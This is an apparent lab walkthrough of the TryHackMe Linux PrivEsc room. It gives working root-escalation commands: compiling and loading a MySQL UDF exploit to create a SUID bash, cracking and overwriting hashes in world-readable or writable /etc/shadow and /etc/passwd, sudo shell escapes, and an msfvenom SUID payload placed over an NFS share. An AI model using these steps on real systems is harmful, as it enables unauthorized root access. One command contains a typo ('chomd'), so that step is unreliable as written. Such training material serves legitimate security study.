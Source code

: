 # What is privilege escalation?

- At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

## Importance

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is cricual because it lets you gain system administrator levels of access, which allows you to perform actions such as:
Install, uninstall applications, add user, deactivate user, run admin scripts and other administrative tasks.

We will use the tryhackme [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) for our privilege escalation practice.

## Service Exploits

From the ```ps -ef``` command we get to know that mysql is running under root user and root user doesn't have a password. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the ```/home/user/tools/mysql-udf``` directory then compile the raptor_udf2.c exploit code using the following command:

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as teh root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Copy **/bin/bash** to **/tmp/tbash** and set the SUID permission.

```sql
select do_system('cp /bin/bash /tmp/tbash; chomd +xs /tmp/tbash');
```

Exit out of mysql shell and execute ```/tmp/tbash -p``` command and you should get the root shell.

## Weak File permissions - Readable /etc/shadow

We can see that /etc/shadow is world readable in this machine so we can easily grab the root password hash and break it using john the repear.

```bash
$cat /etc/shadow
$john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```

## Weak file permissions - Writable /etc/shadow

In this VM /etc/shadow is also world writable. Let's generate a password hash with a password of your choice:

```bash
$mkpasswd -m sha-512 pass123
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated. Then switch to root user.

```bash
$su - root
```

## Weak file permissions - Writable /etc/passwd

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will stilll allow password hashes to be stored there.

The /etc/passwd file is world writable in this VM so we can try to use it.

```bash
$openssl passwd pass321
```

Let's edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row replacing the "x".

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing "x").

The ```su newroot``` to switch to newroot user.

## Privilege Escalation - Shell escapes

There are 11 binaries that the user can run as sudo without requiring any password. Namely, iftop, find, nano, vim, man, awk, less, ftp, nmap, apache2, more. Among them only apache2 doesn't have a way to escape. We may use others to shell escape.

We can look for a way to escape shell [here](https://gtfobins.github.io)

## NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squasing is enabled, the ID will instead be set to "nobody" user.

Note that /tmp share has root squasing disabled.
On your kali box switch to your root user if you are not already running as root.

Using kali root user, create a mount point on your kali box and mount the /tmp share.

```bash
#mkdir /tmp/nfs
#mount -o rw,vers=3 Target_ip:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using msfvenom and save it to the share (this payload simply calls /bin/bash):

```bash
#msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
#chmod +xs /tmp/nfs/shell.elf
Back on target VM
$/tmp/shell.elf
```

You should be able to get the root shell now.


